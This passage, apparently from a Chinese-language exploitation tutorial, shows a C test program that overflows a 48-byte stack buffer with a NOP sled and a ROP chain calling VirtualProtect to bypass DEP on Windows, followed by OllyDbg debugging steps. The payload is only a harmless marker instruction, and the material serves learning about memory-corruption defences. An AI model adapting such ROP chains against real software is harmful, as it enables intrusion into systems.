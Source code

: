 ```

对应的测试poc修改如下：

```
unsigned int shellcode[]=
{     
      0x90909090,0x90909090,0x90909090,0x90909090,
      0x90909090,0x90909090,0x90909090,0x90909090,
	  0x90909090,0x90909090,0x90909090,0x90909090,
	  0x90909090,
      0x77217edd,  // POP EAX // RETN [kernel32.dll] 
      0x77171910,  // ptr to &VirtualProtect() [IAT kernel32.dll]
      0x75d7e9dd,  // MOV EAX,DWORD PTR DS:[EAX] // RETN [KERNELBASE.dll] 
      0x779f9dca,  // XCHG EAX,ESI // RETN [ntdll.dll] 
      0x779cdd30,  // POP EBP // RETN [ntdll.dll] 
      0x75dac58d,  // & call esp [KERNELBASE.dll]
      0x693a7031,  // POP EAX // RETN [MSVCR110.dll] 
      0xfffffdff,  // Value to negate, will become 0x00000201
      0x69354484,  // NEG EAX // RETN [MSVCR110.dll] 
      0x75da655d,  // XCHG EAX,EBX // ADD BH,CH // DEC ECX // RETN 0x10 [KERNELBASE.dll] 
      0x69329bb1,  // POP EAX // RETN [MSVCR110.dll] 
      0x41414141,  // Filler (RETN offset compensation)
      0x41414141,  // Filler (RETN offset compensation)
      0x41414141,  // Filler (RETN offset compensation)
      0x41414141,  // Filler (RETN offset compensation)
      0xffffffc0,  // Value to negate, will become 0x00000040
      0x69354484,  // NEG EAX // RETN [MSVCR110.dll] 
      0x771abd3a,  // XCHG EAX,EDX // RETN [kernel32.dll] 
      0x6935a7c0,  // POP ECX // RETN [MSVCR110.dll] 
      0x693be00d,  // &Writable location [MSVCR110.dll]
      0x779a4b9a,  // POP EDI // RETN [ntdll.dll] 
      0x69354486,  // RETN (ROP NOP) [MSVCR110.dll]
      0x693417cb,  // POP EAX // RETN [MSVCR110.dll] 
      0x90909090,  // nop
      0x69390267,  // PUSHAD // RETN [MSVCR110.dll] 
	  	
      0x9059016A,  //PUSH 1  // POP ECX // NOP
      0x90909090,
      0x90909090,
      0x90909090,
      0x90909090
};
void test()
{
	char buffer[48];	
	printf("3\n");
	memcpy(buffer,shellcode,sizeof(shellcode));
}
int main()
{
	printf("1\n");
	test();
	return 0;
}
```

其中0x9059016A为`PUSH 1;POP ECX;NOP;`的机器码，如果绕过DEP，该指令将会成功执行

编译后在OllyDbg中调试

单步跟踪到CALL KERNELBA.VirtualProtectEX，查看堆栈

可获得传入的函数参数

```